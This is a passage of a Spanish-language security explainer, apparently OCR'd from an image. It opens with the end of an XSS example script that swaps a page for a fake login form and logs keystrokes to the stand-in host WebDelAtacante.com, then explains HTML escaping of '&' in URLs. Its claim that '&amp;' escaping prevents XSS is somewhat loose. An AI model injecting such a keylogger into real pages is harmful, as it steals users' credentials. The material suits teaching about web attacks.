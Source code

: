         // Modificación del contenido de la página
        document.body.innerHTML = '<h1>Sitio hackeado</h1><form>Usuario: <input type="text"><br>Contraseña: <input type="password"><br><input type="submit" value="Iniciar sesión"></form>';

        // Keylogger
        document.onkeypress = function(e) {
            var xhr = new XMLHttpRequest();
            xhr.open("GET", "http://WebDelAtacante.com/log?key=" + e.key, true);
            xhr.send();
        };
    </script>
    ```

### **B) Por qué dice `&amp;` cuando miráis un link (como el que aparece a la portada de esta aplicación pidiendo que realices un donativo) con parámetros GET dentro de código html si en realidad el link es sólo con "&" ?**

    El símbolo `&` (ampersand) en un URL se utiliza en los parámetros de una consulta GET para separar las diferentes variables o parámetros. Por ejemplo:

    ```txt
    http://www.donate.co/?amount=100&destination=ACMEScouting/
    ```

    En este caso, el `&` separa los parámetros `amount` y `destination`.

    Sin embargo, en HTML, el símbolo `&` tiene un significado especial porque es el inicio de una **entidad de caracteres**. Para representar este símbolo de manera literal en un documento HTML, se debe usar la entidad `&amp;`. Esto asegura que el navegador interprete correctamente el `&` como un carácter y no como el comienzo de una nueva entidad HTML. Así que en un código HTML, la URL con parámetros GET debería escribirse como:

    ```txt
    http://www.donate.co/?amount=100&amp;destination=ACMEScouting/
    ```

    **Impacto en seguridad y usabilidad:**

    1. **Prevención de errores de interpretación**: Cuando se incluyen URLs dentro de un código HTML, si no se usan las entidades adecuadas, puede causar errores al interpretar el enlace. Por ejemplo, si un navegador encuentra `&` sin ser escapado como `&amp;`, puede interpretar incorrectamente el resto del URL o los parámetros. Esto puede resultar en problemas de carga o un comportamiento inesperado en la página web.

    2. **Inyección de código malicioso (XSS)**: Si un enlace en HTML no escapa correctamente los caracteres especiales, un atacante podría inyectar código malicioso en los parámetros de la URL. Por ejemplo, si un formulario o enlace no valida correctamente los parámetros de una URL, un atacante podría usar el `&` para insertar código JavaScript dentro de los parámetros de la URL y ejecutar un ataque de **Cross-Site Scripting (XSS)**. En este caso, el uso de `&amp;` ayuda a prevenir la ejecución de código no deseado.

    3. **Robustez en el uso de enlaces**: Al asegurarse de que los símbolos como `&` se codifiquen correctamente con entidades HTML (`&amp;`), se puede garantizar que los enlaces sean interpretados de manera coherente en diferentes navegadores y plataformas. Esto mejora la interoperabilidad y hace que la aplicación sea más confiable y segura.
